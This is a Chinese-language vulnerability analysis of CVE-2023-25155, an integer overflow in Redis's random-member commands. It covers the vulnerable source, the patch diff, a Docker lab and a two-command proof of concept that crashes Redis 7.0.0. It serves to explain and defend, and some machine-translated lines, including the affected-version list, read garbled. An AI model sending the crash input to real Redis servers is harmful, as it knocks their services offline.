



# CVE-2023-25155 CWE-190 Redis DoS

## 漏洞背景

- **Redis**：一个key-value 存储系统，是跨平台的非关系型数据库。开源的内存数据库，提供了一个高性能的键值（key-value）存储系统，常用于缓存、消息队列、会话存储等应用场景。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。

- **`HRANDFIELD`** 是 Redis 中的一个命令，用于从哈希表中随机返回一个或多个字段及其值。用户可以指定返回字段的数量，并通过可选的 `WITHVALUES` 参数来获取字段对应的值。该命令通常用于从哈希表中随机选择字段，对于大规模数据集非常有用，但在处理超出正常范围的参数时，可能会导致 Redis 崩溃。

  **`ZRANDMEMBER`** 是 Redis 中用于从有序集合（Zset）中随机获取一个或多个成员及其分数的命令。与 `HRANDFIELD` 类似，用户可以指定返回的成员数量，并通过可选的 `WITHSCORES` 参数获取每个成员的分数。此命令常用于从有序集合中随机选择元素，同样也可能由于参数不合法或边界值问题而触发崩溃。

- ```txt
  CWE-190: Integer Overflow or Wraparound
  The product performs a calculation that can produce an integer overflow or wraparound when the logic assumes that the resulting value will always be larger than the original value. This occurs when an integer value is incremented to a value that is too large to store in the associated representation. When this occurs, the value may become a very small or negative number.
  ```

## 漏洞原理

Redis 在处理 `HRANDFIELD`、`ZRANDMEMBER` 和 `SRANDMEMBER` 等命令时未对用户输入的整数进行充分的范围检查。恶意用户可以通过传入极大的数值，导致整数溢出，从而触发 Redis 的运行时断言错误，导致服务器崩溃或拒绝服务（DoS）。

## 漏洞定位

分析 Redis-7.0.0 源码：

在 src/t_hash.c 文件，第 1112 行 hrandfieldCommand 函数用于处理 HRANDFIELD 命令。

其中，使用了 `getLongFromObjectOrReply` 来获取用户输入的整数，但没有进行足够的范围检查。这意味着，用户可以传入一个极大的数值，导致整数溢出。

```c
void hrandfieldCommand(client *c) {
    long l;
    int withvalues = 0;
    robj *hash;
    listpackEntry ele;

    if (c->argc >= 3) {
        if (getLongFromObjectOrReply(c,c->argv[2],&l,NULL) != C_OK) return;
        if (c->argc > 4 || (c->argc == 4 && strcasecmp(c->argv[3]->ptr,"withvalues"))) {
            addReplyErrorObject(c,shared.syntaxerr);
            return;
        } else if (c->argc == 4)
            withvalues = 1;
        hrandfieldWithCountCommand(c, l, withvalues);
        return;
    }

    /* Handle variant without <count> argument. Reply with simple bulk string */
    if ((hash = lookupKeyReadOrReply(c,c->argv[1],shared.null[c->resp]))== NULL ||
        checkType(c,hash,OBJ_HASH)) {
        return;
    }

    hashTypeRandomElement(hash,hashTypeLength(hash),&ele,NULL);
    hashReplyFromListpackEntry(c, &ele);
}
```

在 src/t_zset.c 文件，第 4278 行 zrandmemberCommand 函数用于处理 ZRANDMEMBER， 同样地，这里使用了 `getLongFromObjectOrReply` 函数，但未明确限制输入的数值范围，导致潜在的整数溢出风险。

```c
void zrandmemberCommand(client *c) {
    long l;
    int withscores = 0;
    robj *zset;
    listpackEntry ele;

    if (c->argc >= 3) {
        if (getLongFromObjectOrReply(c,c->argv[2],&l,NULL) != C_OK) return;
        if (c->argc > 4 || (c->argc == 4 && strcasecmp(c->argv[3]->ptr,"withscores"))) {
            addReplyErrorObject(c,shared.syntaxerr);
            return;
        } else if (c->argc == 4)
            withscores = 1;
        zrandmemberWithCountCommand(c, l, withscores);
        return;
    }

    /* Handle variant without <count> argument. Reply with simple bulk string */
    if ((zset = lookupKeyReadOrReply(c,c->argv[1],shared.null[c->resp]))== NULL ||
        checkType(c,zset,OBJ_ZSET)) {
        return;
    }

    zsetTypeRandomElement(zset, zsetLength(zset), &ele,NULL);
    zsetReplyFromListpackEntry(c,&ele);
}
```

在 ‎src/t_set.c‎ 文件，第 657 行 srandmemberWithCountCommand 函数用于处理 SRANDMEMBER 命令。其中存在与 `t_hash.c` 中的问题类似，原始代码只调用了 `getLongFromObjectOrReply`，没有显式限制输入的数值范围。当用户输入一个过大的整数时，可能会导致整数溢出，从而引发未定义行为。

```c
void srandmemberWithCountCommand(client *c) {
    long l;
    unsigned long count, size;
    int uniq = 1;
    robj *set;
    sds ele;
    int64_t llele;
    int encoding;

    dict *d;

    if (getLongFromObjectOrReply(c,c->argv[2],&l,NULL) != C_OK) return;
    if (l >= 0) {
        count = (unsigned long) l;
    } else {
        /* A negative count means: return the same elements multiple times
         * (i.e. don't remove the extracted element after every extraction). */
        count = -l;
        uniq = 0;
    }

    if ((set = lookupKeyReadOrReply(c,c->argv[1],shared.emptyarray))
        == NULL || checkType(c,set,OBJ_SET)) return;
    size = setTypeSize(set);

    /* If count is zero, serve it ASAP to avoid special cases later. */
    if (count == 0) {
        addReply(c,shared.emptyarray);
        return;
    }

    /* CASE 1: The count was negative, so the extraction method is just:
     * "return N random elements" sampling the whole set every time.
     * This case is trivial and can be served without auxiliary data
     * structures. This case is the only one that also needs to return the
     * elements in random order. */
    if (!uniq || count == 1) {
        addReplyArrayLen(c,count);
        while(count--) {
            encoding = setTypeRandomElement(set,&ele,&llele);
            if (encoding == OBJ_ENCODING_INTSET) {
                addReplyBulkLongLong(c,llele);
            } else {
                addReplyBulkCBuffer(c,ele,sdslen(ele));
            }
        }
        return;
    }
```

## 漏洞修复


t hash.c 文件:该 `getRangeLongFromObjectOrReply` 函数替换原始 `getLongFromObjectOrReply` 并添加明确的范围检查,以确保 `l` 介于 `-LONG_MAX` 和 `LONG_MAX`。这可以防止超出有效范围的任何输入,并确保程序不会溢出。

t set.c 文件:电话 `getRangeLongFromObjectOrReply`,指定从 `-LONG_MAX` 改为 `LONG_MAX` 确保用户输入值保持在有效范围内,防止整数溢出。

t zset.c 文件:通过使用 `getRangeLongFromObjectOrReply` 为确保输入值在有效范围内,避免超出范围输入过多的问题。

```c
diff --git a/src/t_hash.c b/src/t_hash.c
index 754315080d5..f4ddccc6213 100644
--- a/src/t_hash.c
+++ b/src/t_hash.c
@@ -1120,13 +1120,13 @@ void hrandfieldCommand(client *c) {
     listpackEntry ele;
 
     if (c->argc >= 3) {
-        if (getLongFromObjectOrReply(c,c->argv[2],&l,NULL) != C_OK) return;
+        if (getRangeLongFromObjectOrReply(c,c->argv[2],-LONG_MAX,LONG_MAX,&l,NULL) != C_OK) return;
         if (c->argc > 4 || (c->argc == 4 && strcasecmp(c->argv[3]->ptr,"withvalues"))) {
             addReplyErrorObject(c,shared.syntaxerr);
             return;
         } else if (c->argc == 4) {
             withvalues = 1;
-            if (l < LONG_MIN/2 || l > LONG_MAX/2) {
+            if (l < -LONG_MAX/2 || l > LONG_MAX/2) {
                 addReplyError(c,"value is out of range");
                 return;
             }
diff --git a/src/t_set.c b/src/t_set.c
index b01729f0a6b..dff66d05273 100644
--- a/src/t_set.c
+++ b/src/t_set.c
@@ -665,7 +665,7 @@ void srandmemberWithCountCommand(client *c) {
 
     dict *d;
 
-    if (getLongFromObjectOrReply(c,c->argv[2],&l,NULL) != C_OK) return;
+    if (getRangeLongFromObjectOrReply(c,c->argv[2],-LONG_MAX,LONG_MAX,&l,NULL) != C_OK) return;
     if (l >= 0) {
         count = (unsigned long) l;
     } else {
diff --git a/src/t_zset.c b/src/t_zset.c
index 3cd2d24381c..a9b5031ea32 100644
--- a/src/t_zset.c
+++ b/src/t_zset.c
@@ -4289,13 +4289,13 @@ void zrandmemberCommand(client *c) {
     listpackEntry ele;
 
     if (c->argc >= 3) {
-        if (getLongFromObjectOrReply(c,c->argv[2],&l,NULL) != C_OK) return;
+        if (getRangeLongFromObjectOrReply(c,c->argv[2],-LONG_MAX,LONG_MAX,&l,NULL) != C_OK) return;
         if (c->argc > 4 || (c->argc == 4 && strcasecmp(c->argv[3]->ptr,"withscores"))) {
             addReplyErrorObject(c,shared.syntaxerr);
             return;
         } else if (c->argc == 4) {
             withscores = 1;
-            if (l < LONG_MIN/2 || l > LONG_MAX/2) {
+            if (l < -LONG_MAX/2 || l > LONG_MAX/2) {
                 addReplyError(c,"value is out of range");
                 return;
             }
```

## 影响范围


Redis：

- 转 6.0.17
-  6.2.0 改为 6.2.10
-  7.0.0 改为 7.0.8

## 环境搭建

启动 Docker 环境，Redis 版本为 7.0.0

```txt
NIST:NVD   Base Score:6.5 MEDIUM   Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:H
CNA:GitHub, Inc.    Base Score:5.5 MEDIUM    Vector:CVSS:3.1/AV:A/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L
```

```txt
cpe:2.3:a:redis:redis:7.0.0:*:*:*:*:*:*:*
```



## 漏洞复现

1. 进入容器命令行，连接 Redis

   ```bash
   docker exec -it redis-7.0.0 redis-cli
   ```

2. 依次执行命令，可以看到 Redis 服务器关闭了连接

   ```bash
   sadd myset a
   
   srandmember myset -9223372036854775808
   ```

   

3. 查看容器日志，可以发现 PoC 引发断言失败导致 Redis 崩溃

   ```bash
   docker logs redis-7.0.0
   ```

   

## PoC分析


```bash
sadd myset a

srandmember myset -9223372036854775808
```

## 参考链接


[NVD - CVE-2023-25155](https://nvd.nist.gov/vuln/detail/CVE-2023-25155)

[Integer Overflow in RAND commands can lead to assertion (CVE-2023-25155) · redis/redis@2a2a582](https://github.com/redis/redis/commit/2a2a582e7cd99ba3b531336b8bd41df2b566e619)
